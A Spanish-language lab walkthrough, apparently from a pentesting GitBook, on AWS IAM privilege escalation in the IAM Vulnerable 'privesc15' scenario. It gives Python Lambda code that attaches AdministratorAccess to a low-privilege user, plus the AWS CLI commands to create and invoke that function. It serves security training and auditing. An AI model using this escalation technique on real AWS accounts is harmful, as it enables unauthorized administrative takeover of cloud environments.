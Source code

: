 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassExistingRoleToNewLambdaThenInvoke

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc15

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc15
{% endembed %}

Un atacante con los permisos <mark style="color:green;">iam:PassRole</mark> , <mark style="color:green;">lambda:CreateFunction</mark> y <mark style="color:green;">lambda:InvokeFunction</mark> puede escalar privilegios pasando un rol de IAM existente a una nueva función de Lambda que incluye código para importar la biblioteca de AWS relevante para el lenguaje de programación de su elección, y luego usándola para realizar las acciones de su elección. Para este ejercicio se simulará que es una auditoria post autenticación (habiendo obtenido las credenciales por algún otro medio previo).

### Configuración Inicial

Usuario del laboratorio: privesc15-PassExistingRoleToNewLambdaThenInvoke-user

La cuenta de AWS debe contener un rol existente que incluya el permiso iam:AttachUserPolicy y las funciones lambda deben poder asumir este rol.

{% code title="assumeRolePolicy.json" overflow="wrap" %}
```json
{
     "Version": "2012-10-17",
     "Statement": [
         {
            "Sid": "VisualEditor0",
             "Effect": "Allow",
             "Action": "iam:AttachUserPolicy",
             "Resource": "arn:aws:iam::*:user/*"
         }
     ]
}
```
{% endcode %}

Luego las políticas asociadas al usuario deben ser las siguientes:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption><p>Permisos mínimos para escalar privilegios </p></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.



### Explotación

#### Paso 1

En este laboratorio, se tiene que iniciar utilizando el permiso <mark style="color:green;">**lambda:Createfunction**</mark> para crear una función lambda maliciosa en Python que tendrá el código para adjuntar una política de altos privilegios al usuario inicial _privesc15_.

<pre class="language-python" data-title="code.py" data-overflow="wrap"><code class="lang-python">import boto3

def lambda_handler(event, context):
    # crea un cliente de IAM usando la biblioteca Boto3
    client = boto3.client('iam')
    
    # adjunta la política "AdministratorAccess" al usuario 
<strong>    response = client.attach_user_policy(UserName='privesc15-PassExistingRoleToNewLambdaThenInvoke-user',
</strong><strong>    PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
</strong>    
    # devuelve la respuesta de la API de IAM de AWS
    return response

</code></pre>

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-2 --profile privesc15
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

#### Paso 2

Llamar la función maliciosa aprovechando el privilegio de <mark style="color:green;">**lambda:InvokeFunction**</mark> para invocar dicha función y que finalmente el usuario inicial adquiera el rol de administrador.

{% code overflow="wrap" %}
```bash
aws lambda invoke --function-name privesc output.txt --region us-east-2 --profile privesc15
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Con estos pasos ya se habrá ejecutado la escalación de privilegios, se puede observar con el siguiente comando:

<figure><img src="../../../.gitbook/assets/image (7) (1) (3).png" alt=""><figcaption></figcaption></figure>








